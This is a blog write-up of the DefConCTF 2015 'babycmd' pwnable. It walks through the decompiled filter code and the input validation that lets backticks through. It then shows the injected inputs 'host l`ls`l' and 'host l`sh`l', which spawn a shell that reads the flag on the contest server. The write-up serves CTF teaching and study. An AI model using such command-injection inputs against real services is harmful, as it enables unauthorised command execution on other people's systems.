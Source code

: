 ```yaml
---
layout: post
title: "DefConCTF 2015 Quals - babycmd Writeup"
date: 2015-05-18 13:39:52 +0430
comments: true
categories: defconctf pwn shell bypass
---
```


**DefConCTF 2015 babycmd Writeup**  
**Point = 1**  
**Category = Pwnable**  

As you may now defconctf started 2 days ago, so we participated and you can check our solutions right here.

OK, So there was 4 problem categories: `Baby's first`,  `Pwning`, `Coding`, `Reverse` and `Misc`.

This is babycmd writeup as you can see below, 

--

There was a binary `babycmd_3ad28b10e8ab283d7df81795075f600b` by following properties:

```
$ file babycmd_3ad28b10e8ab283d7df81795075f600b
babycmd_3ad28b10e8ab283d7df81795075f600b: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
$ checksec.sh --file babycmd_3ad28b10e8ab283d7df81795075f600b 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   babycmd_3ad28b10e8ab283d7df81795075f600b
```

This is so much for 1 point task, but you know this is DEFCON.

<!--more-->

by running the binary, it was a wrapper providing 3 functionalites: `ping`, `host`, `dig`

```
$ ./babycmd_3ad28b10e8ab283d7df81795075f600b 

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 0 received, 100 0x56191abe7100acket loss, time 2016ms          
                                                                                      
Commands: ping, dig, host, exit                                                       
: host hamidx9.ir
hamidx9.ir has address 104.28.29.35
hamidx9.ir has address 104.28.28.35
hamidx9.ir has IPv6 address 2400:cb00:2048:1::681c:1c23
Commands: ping, dig, host, exit
: 

```

as strace says, it seems it parses the input and filter it and then try to execute!

Basicly with `executing` word i always look for a filter bypass and execute arbitrary commands. but `0x56191abe7100acket` in the ping command got my attention.

It's time to open the binary in IDA:

1. 6 main functions:  
  `sub_F5C`: parse and execute dig  
  `sub_10BD`: parse and execute host  
  `sub_E35`: parse and execute ping  
  `sub_121E`: main()  
  `sub_D65`: parse the input  
  `sub_DCC`: filter the input  
    
2. `ping` does not seem to be vulnerable:
```
    if ( (unsigned int)sub_D65(a1, (__int64)&cp) )
    {
      if ( inet_aton(&cp, &v4) )
      {
        v1 = inet_ntoa(v4);
        __sprintf_chk(&command, 1LL, 384LL, "ping -c 3 -W 3 %s", v1);
        v2 = popen(&command, "r");
        if ( v2 )
        {
          while ( fgets(&s, 512, v2) )
            __printf_chk(1LL, &s);
          pclose(v2);
        }
```
the `v1`  param which passes to `sprintf` returning from `inet_ntoa` so it cannot be a arbitrary value.

3. let's look at host code:
```
__int64 __fastcall sub_10BD(__int64 a1)
{
  char *v1; // rax@6
  FILE *v2; // rbp@10
  struct in_addr v4; // [sp+0h] [bp-538h]@5
  char command; // [sp+10h] [bp-528h]@6
  char cp; // [sp+190h] [bp-3A8h]@3
  char s; // [sp+310h] [bp-228h]@12
  __int64 v8; // [sp+518h] [bp-20h]@1

  v8 = *MK_FP(__FS__, 40LL);
  if ( a1 )
  {
    if ( (unsigned int)sub_D65(a1, (__int64)&cp) )
    {
      if ( inet_aton(&cp, &v4) )
      {
        v1 = inet_ntoa(v4);
        __sprintf_chk(&command, 1LL, 384LL, "host %s", v1);
      }
      else
      {
        if ( !(unsigned int)sub_DCC((__int64)&cp) )
        {
          puts("Invalid hostname.");
          return *MK_FP(__FS__, 40LL) ^ v8;
        }
        __sprintf_chk(&command, 1LL, 384LL, "host \"%s\"", &cp);
      }
      v2 = popen(&command, "r");
      if ( v2 )
      {
        while ( fgets(&s, 512, v2) )
          __printf_chk(1LL, &s);
        pclose(v2);
      }
      else
      {
        puts("Command failed.");
      }
    }
    else
    {
      puts("Invalid Host or IP address sent to dig.");
    }
  }
  else
  {
    puts("No address specified.");
  }
  return *MK_FP(__FS__, 40LL) ^ v8;
}
```
As you can see, second `__sprintf_chk` may acts unexpectedly. but there could be problem in using `sub_DCC`.

4. `sub_DCC` code:
```
signed __int64 __fastcall sub_DCC(__int64 a1)
{
  __int64 v1; // rsi@1
  signed __int64 v2; // rcx@1
  bool v3; // zf@3
  signed __int64 v4; // rcx@4
  signed __int64 result; // rax@4
  char v6; // dl@7

  v1 = a1;
  v2 = -1LL;
  do
  {
    if ( !v2 )
      break;
    v3 = *(_BYTE *)a1++ == 0;
    --v2;
  }
  while ( !v3 );
  v4 = ~v2;
  result = 0LL;
  if ( (unsigned __int64)(v4 - 4) <= 0x3C )
  {
    if ( (unsigned __int8)((*(_BYTE *)v1 & 0xDF) - 0x41) <= 0x19u
      || (result = 0LL, (unsigned __int8)(*(_BYTE *)v1 - 48) <= 9u) )
    {
      v6 = *(_BYTE *)(v1 + v4 - 1 - 1);
      result = 1LL;
      if ( (unsigned __int8)((v6 & 0xDF) - 0x41) > 0x19u )
        result = (unsigned __int8)(v6 - 0x30) <= 9u;
    }
  }
  return result;
}
```

i just noticed that it filters some bytes but not chr(0x60) which can be used to execute command and tried some tests on input.

finally i could run command like this: 

```
$ ./babycmd_3ad28b10e8ab283d7df81795075f600b 

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host l`ls`l
host: 'lbabycmd_3ad28b10e8ab283d7df81795075f600b
babycmd_3ad28b10e8ab283d7df81795075f600b.id0
babycmd_3ad28b10e8ab283d7df81795075f600b.id1
babycmd_3ad28b10e8ab283d7df81795075f600b.id2
babycmd_3ad28b10e8ab283d7df81795075f600b.nam
babycmd_3ad28b10e8ab283d7df81795075f600b.til
logl' is not a legal name (label too long)
Commands: ping, dig, host, exit
: 

```
but trying something like this ```host l`ls /home/`l``` can be seen below:
```
Commands: ping, dig, host, exit
: host l`ls /home/`l
sh: 1: ls/home/: not found
Host ll not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
: 
```

it filters space, so i can't run any command. 
but instead of reversing the filter function, i can use `sh`, aren't i :)) ?

So here's my points:

1. enter ``host l`sh`l`` as command
2. enter:  
  `cat /home/babycmd/flag`
3. Press Ctrl+D
4. Press Ctrl+C

So here we go:

```
$ nc babycmd_3ad28b10e8ab283d7df81795075f600b.quals.shallweplayaga.me 15491
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host l`sh`l
cat /home/babycmd/flag [Enter] [Ctrl+D]
: host: 'lThe flag is: Pretty easy eh!!~ Now let's try something hArd3r, shallwe??1' is not in legal name syntax (label too long)
Commands: ping, dig, host, exit
: ^C
```

So we have first 1 point at DEFCONCTF.

@HAMIDx9
